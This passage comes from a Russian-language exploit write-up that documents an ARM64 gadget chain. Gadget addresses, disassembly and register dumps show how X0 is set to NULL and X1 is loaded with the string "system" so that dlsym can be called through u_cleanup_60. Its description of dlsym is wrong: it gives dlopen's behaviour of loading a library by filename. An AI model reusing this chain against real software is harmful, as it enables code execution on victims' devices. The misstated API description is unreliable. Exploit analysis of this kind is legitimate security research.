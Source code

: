 Рис. 3.9 состояние памяти после вызова **u_cleanup_60** с SET_X0_TO_NULL

Занулился адрес SET_X0_TO_NULL (**u_cleanup_60** проитерировался по нему и **SIGBUS** возник при попытке обращения к 0x00000000dead0007)

### Вызов dlsym

Из заголовка функции **dlsym**:

```c++
void *dlsym(void *handle, char *symbol); загружает динамическую библиотеку, имя которой указано в строке filename, и возвращает прямой указатель на начало динамической библиотеки
```

В нашем случае *handle* должен быть NULL, поэтому и использовался гаджет SET_X0_TO_NULL. Но перед вызовом **dlsym** необходимо в X1 передать указатель на строку "system\0". Для этого изменился гаджет 3 на такой что, перед вызовом **u_cleanup_60**, выполняется переход на новые гаджеты 4 и 5, которые выполняют нужную инициализацию X1.

```asm
0x00000000000bb3d4: mov x19, x0; инициализация X19 указателем на начало массива с адресами гаджетов
                    ldr x0, [x19, #0x70]; сохранение x0 для будущих целей
                    cbz x0, #0x9f3ec; 
                    ldr x8, [x0];
                    ldr x8, [x8, #8]; Загрузка в X8 адреса из буфера относительно X0 (адрес гаджета 4)
                    blr x8; переход на гаджет 4 
```
Новый гаджет 3 (сохраняет X0 для будущих целей и переходит на гаджет 4)

После нового гаджета 3:
```asm
X0  : 0x00000078646784b0 (указатель на buf)
X8  : 0x00000078646784b8 [гаджет 4]
X19 : 0x0000007864678438
```

```asm
0x000000000006e354: ldr x8, [x0]; подготовка x8 к загрузке u_cleanup60 + offset
                    ldr x1, [x8, #0x10]; в x1 загружается адрес гаджета 5
                    br x1; переход на гаджет 5
```
Гаджет 4 (подготовка X8)

После гаджета 4:
```asm
X1  : 0x00000078646784c0 [гаджет 5]
X8  : 0x00000078646784b0 (buf указывает сам на себя)
```

```asm
0x00000000000a096c: ldr x1, [x19, #0x68]; в x1 загружается адрес строки "system\0"
                    ldr x8, [x8, #0x20]; в x8 загружается адрес u_cleanup60 + offset
                    blr x8; переход на u_cleanup60 + offset
```
Гаджет 5 (инициализация X1 и вызов **u_cleanup_60**)

После гаджета 5:
```asm
X1  : 0x00000078646784a0 (адрес строки "system\0")
X8  : 0x0000007864678440 [u_cleanup60 + offset]
```
